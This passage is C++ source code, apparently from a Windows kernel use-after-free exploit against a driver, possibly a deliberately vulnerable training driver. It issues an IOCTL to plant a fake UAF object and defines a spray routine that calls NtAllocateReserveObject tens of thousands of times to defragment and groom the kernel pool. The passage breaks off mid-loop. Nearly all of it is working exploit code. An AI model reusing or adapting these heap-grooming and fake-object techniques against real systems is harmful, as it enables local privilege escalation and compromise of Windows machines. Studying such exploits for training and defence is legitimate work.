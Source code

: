 ```cpp

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        FAKE_OBJECT_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not create fake UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] Fake UAF object created.\n";
}

void spray() {

    // thanks Tekwizz as usual
    _NtAllocateReserveObject NtAllocateReserveObject = 
        (_NtAllocateReserveObject)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtAllocateReserveObject");

    if (!NtAllocateReserveObject) {

        cout << "[!] Failed to get the address of NtAllocateReserve.\n";
        cout << "[!] Last error " << GetLastError() << "\n";
        exit(1);
    }

    cout << "[>] Spraying pool to defragment...\n";
    for (int i = 0; i < 10000; i++) {

        HANDLE hObject = 0x0;

        PHANDLE result = (PHANDLE)NtAllocateReserveObject((PHANDLE)&hObject,
            NULL,
            1); // specifies the correct object

        if (result != 0) {
            cout << "[!] Error allocating IoCo Object during defragmentation\n";
            exit(1);
        }
        defrag_handles.push_back(hObject);
    }
    cout << "[>] Defragmentation spray complete.\n";
    cout << "[>] Spraying sequential allocations...\n";
    for (int i = 0; i < 30000; i++) {

        HANDLE hObject = 0x0;

        PHANDLE result = (PHANDLE)NtAllocateReserveObject((PHANDLE)&hObject,
            NULL,
            1); // specifies the correct object

        if (result != 0) {
            cout << "[!] Error allocating IoCo Object during defragmentation\n";
            exit(1);
```